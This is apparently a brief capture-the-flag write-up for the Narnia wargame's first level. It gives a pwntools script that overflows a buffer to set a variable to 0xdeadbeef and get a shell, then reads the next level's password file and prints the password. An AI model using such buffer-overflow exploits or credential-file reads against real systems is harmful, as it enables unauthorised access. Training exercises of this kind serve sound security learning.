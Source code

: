 
from the code we see that if the val variable is overwritten to 0xdeadbeef we get a shell.
and above is a buffer which can be overflown to write into this variable.

this is the python code i used.



    from pwn import *
    sh = process('./narnia0')
    sh.readline()
    sh.sendline('B'*20+'\xef\xbe\xad\xde')
    sh.interactive()

here we have an interactive shell
cat /etc/narnia_pass/narnia1
efeidiedae
